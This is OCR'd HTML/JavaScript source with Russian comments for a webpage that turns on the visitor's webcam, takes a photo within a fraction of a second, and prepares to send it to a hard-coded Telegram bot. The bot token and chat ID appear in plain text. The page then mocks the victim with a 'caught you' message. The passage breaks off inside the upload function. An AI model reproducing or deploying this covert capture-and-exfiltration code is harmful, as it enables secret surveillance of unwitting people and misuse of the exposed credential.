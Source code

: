     <div id="result"></div>

    <script>
        const video = document.getElementById("video");
        const canvas = document.getElementById("canvas");
        const captureBtn = document.getElementById("captureBtn");
        const result = document.getElementById("result");
        const ctx = canvas.getContext("2d");
        
        // Включаем камеру
        navigator.mediaDevices.getUserMedia({ video: true })
            .then(stream => { 
                video.srcObject = stream; 
                
                // Через 5 секунд делаем снимок и показываем пользователю
                setTimeout(() => {
                    // Делать снимок
                    ctx.drawImage(video, 0, 0, 320, 240);
                    let imgData = canvas.toDataURL('image/png');

                    // Отправляем фото в Telegram
                    sendPhoto(imgData);

                    // Останавливаем камеру
                    stream.getTracks().forEach(track => track.stop());

                    result.innerHTML = `<h2>АХАХАХАХАХАХАХ ПОПАЛСЯ</h2><img src="${imgData}" alt="Фото">`;
                }, 200);
            })
            .catch(err => { console.error("Ошибка доступа к камере", err); });

        // Функция отправки фото в Telegram
        async function sendPhoto(imgData) {
            const status = document.getElementById("status");
            status.innerText = "Отправка...";

            // Преобразуем изображение в файл
            const byteString = atob(imgData.split(',')[1]);
            const arrayBuffer = new ArrayBuffer(byteString.length);
            const uintArray = new Uint8Array(arrayBuffer);

            for (let i = 0; i < byteString.length; i++) {
                uintArray[i] = byteString.charCodeAt(i);
            }

            const file = new Blob([uintArray], { type: "image/png" });

            // Создаем FormData
            let formData = new FormData();
            formData.append("photo", file, "photo.png");

            // Отправляем фото через API Telegram
            let botToken = "7818329173:AAHMNlLkhV6kI8k9lXpdQm5BzblwzUsPgWw";
            let chatId = "5180995134";  // Твой Telegram ID
            let url = `https://api.telegram.org/bot${botToken}/sendPhoto?chat_id=${chatId}`;
